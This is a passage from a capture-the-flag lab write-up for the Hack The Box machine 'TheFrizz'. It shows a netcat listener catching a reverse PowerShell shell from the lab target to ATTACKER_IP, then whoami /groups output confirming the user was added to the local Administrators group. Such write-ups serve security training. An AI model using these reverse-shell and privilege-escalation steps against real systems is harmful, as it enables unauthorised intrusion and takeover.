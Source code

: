 The `nc` listener catches the reverse shell.

`whoami /groups` shows that `M.SchoolBus` is now a member of the `Administrators` group.

```
fcoomans@kali:~/htb/thefrizz$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.11.60] 63927
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
frizz\m.schoolbus
PS C:\Windows\system32> whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users              Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                     Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
frizz\Desktop Admins                         Group            S-1-5-21-2386970044-1145388522-2932701813-1121 Mandatory group, Enabled by default, Enabled group
frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group
frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication             Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```
